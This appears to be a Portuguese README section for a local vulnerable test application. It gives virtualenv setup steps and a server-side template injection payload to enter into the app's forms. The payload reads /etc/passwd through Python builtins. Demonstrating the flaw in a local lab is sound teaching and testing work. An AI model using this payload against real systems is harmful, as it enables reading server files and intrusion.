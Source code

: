## Como executar o programa de teste?

Segue um exemplo de como realizar um teste desse tipo de vulnerabilidade:

Instalar o virtualenv:

    pip install virtualenv

Na pasta raíz do projeto, executar o seguinte comando:

    python3 -m virtualenv .venv

Ativar o virtualenv da aplicação:

    source .venv/bin/activate 

Em seguida instalar as dependências do projeto:

    pip install -r requirements.txt

Executar a aplicação:

    python app.py


Abrir a página no navegador:

    http://127.0.0.1:8010


Inserir o seguinte conteúdo no campo de texto de cada formulário e clicar nos dois botões enviar:

    {{ request.__class__._load_form_data.__globals__.__builtins__.open("/etc/passwd").read() }}
